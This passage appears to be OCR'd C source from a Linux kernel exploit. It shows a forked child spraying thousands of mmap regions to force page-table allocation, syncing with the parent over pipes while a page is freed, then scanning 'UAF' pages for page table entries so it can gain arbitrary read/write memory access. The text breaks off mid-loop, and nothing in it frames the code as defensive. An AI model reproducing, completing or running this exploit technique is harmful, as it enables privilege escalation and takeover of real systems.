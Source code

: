 ```c

 if (pipe(pfds2) < 0)
  err(1, "pipe");

 /* pre alloc pipe page */
 while (write(pfds1[1], &c, 1) != 1) ;
 while (read(pfds1[0], &c, 1)  != 1) ;
 while (write(pfds2[1], &c, 1) != 1) ;
 while (read(pfds2[0], &c, 1)  != 1) ;

 child_pid = fork();
 if (child_pid < 0)
 {
  err(1, "fork");
 }
 else if (!child_pid)
 {
  unsigned char *mmap_start = (unsigned char *)0x1000000;
  unsigned char *cur_addr;
  size_t n_ptes = 10000;

  puts("[+] child started");

  /* Prepare mmaps */
  cur_addr = mmap_start;
  for (size_t i = 0; i < n_ptes; i++)
  {
   if (mmap((void *)cur_addr, 0x2000, PROT_READ | PROT_WRITE, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0) == MAP_FAILED)
    err(1, "mmap spray");

   if ((i % 512) == 0)
   {
    /* pre fault higher levels */
    *cur_addr = 0x41;
   }

   cur_addr += 0x1000 * 512;
  }
  puts("[+] mmaps prepared");

  /* Tell parent we are ready */
  while (write(pfds1[1], &c, 1) != 1) ;
  /* Wait for parent to free page */
  while (read(pfds2[0], &c, 1)  != 1) ;

  /* Alloc ptes */
  cur_addr = mmap_start;
  for (size_t i = 0; i < n_ptes; i++)
  {
   /* only fault first page */
   *cur_addr = 0x41;
   cur_addr += 0x1000 * 512;
  }
  puts("[+] mmaps faulted");

  unsigned long *arb_rw_mmap = NULL;
  unsigned long *arb_rw_pte = NULL;

  /* Check uaf pages for ptes */
  for (size_t i = 0; i < N_UAF_MAPS; i++)
  {
   /* Does this look like a pte ? */
```